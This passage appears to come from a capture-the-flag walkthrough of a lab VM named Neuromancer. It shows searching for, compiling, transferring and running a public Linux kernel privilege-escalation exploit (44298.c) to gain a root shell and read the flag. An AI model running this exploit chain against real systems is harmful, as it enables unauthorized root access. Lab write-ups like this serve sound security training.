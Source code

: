 A possible kernel exploit for this version in the following.

```console
root@kali:~$ searchsploit 4.4.0
------------------------------------------------------------------------------- --------------------------------
 Exploit Title                                                                 |  Path                         
------------------------------------------------------------------------------- --------------------------------
...
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation         | linux/local/44298.c
...
------------------------------------------------------------------------------- --------------------------------
```

We copy the exploit to our current directory.

```console
root@kali:~$ searchsploit -m linux/local/44298.c
```

We compile the exploit on the attacking machine since gcc is not installed on the victim machine.

```console
root@kali:~$ gcc 44298.c -o exp
```

We transfer the exploit to the victim machine via SSH.

```console
root@kali:~$ scp -i id_rsa -P 34483 exp ta@192.168.56.104:exp  
 ----------------------------------------------------------------
|                Neuromancer Secure Remote Access                |
| UNAUTHORIZED ACCESS will be investigated by the Turing Police  |
 ----------------------------------------------------------------
Enter passphrase for key 'id_rsa': 
exp
```

We grant execution privileges to the compiled exploit, execute it, and we get root.

```console
ta@neuromancer:~$ chmod 755 exp 
ta@neuromancer:~$ ./exp 
task_struct = ffff88000af43800
uidptr = ffff88000c915484
spawning root shell
root@neuromancer:~# cd /root/
root@neuromancer:/root# ls
flag.txt  struts2  velocity.log
root@neuromancer:/root# cat flag.txt 
be3306f431dae5ebc93eebb291f4914a
root@neuromancer:/root#
```
